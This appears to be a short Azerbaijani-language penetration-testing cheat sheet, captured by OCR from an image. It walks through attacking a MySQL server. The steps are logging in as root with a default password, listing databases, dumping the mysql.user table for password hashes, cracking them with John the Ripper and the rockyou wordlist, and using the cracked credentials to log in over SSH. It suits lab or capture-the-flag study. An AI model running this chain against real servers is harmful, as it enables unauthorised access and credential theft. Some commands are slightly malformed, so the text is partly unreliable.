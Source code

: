 # nmap scani atiriq default port 3306 mysql portudur (deyisdirile biler ) amma budur 
# eger user root parol passwordd'dirsa
     mysql -u root  -h $ip  -p password
   # istifade edilecek toollar 
    evveline "system"   sonuna ise ( " ; " ) qoyulur ( " ; " deyilisi noqte,vergul)
  ## data bases baxmaq ucun 
     show databases;
#
+--------------------+

| Database           |

+--------------------+

| information_schema |

| mysql              |

| performance_schema |

| sys                |

+--------------------+

#
    use mysql;
      show table
 #
 +---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| engine_cost               |
| event                     |
| func                      |
| general_log               |
| gtid_executed             |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| innodb_index_stats        |
| innodb_table_stats        |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| server_cost               |
| servers                   |
| slave_master_info         |
| slave_relay_log_info      |
| slave_worker_info         |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
#
## bir table icerisindeki melumatlarin hamisina baxmaq ucun istifade edeceyik (sql injection rast geleceyik)
## example
     select  * from user \G;
   ## userin hashini goturdukden sonra john ile runlayib parolu tapiriq 
       
        john hash --wordlist=/usr/share/wordlists/rockyou.txt 

   # userin adini ve parolu john ile qirdiqdan sonra ssh ile usere daxil oluruq     
        
